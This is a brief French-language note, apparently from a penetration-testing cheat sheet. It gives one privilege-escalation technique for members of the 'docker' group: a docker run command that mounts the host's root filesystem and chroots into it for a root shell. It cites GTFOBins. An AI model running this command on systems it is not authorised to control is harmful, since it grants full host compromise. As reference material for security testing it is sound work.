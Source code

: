 # PE : groupe 'docker'

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Source : [https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)
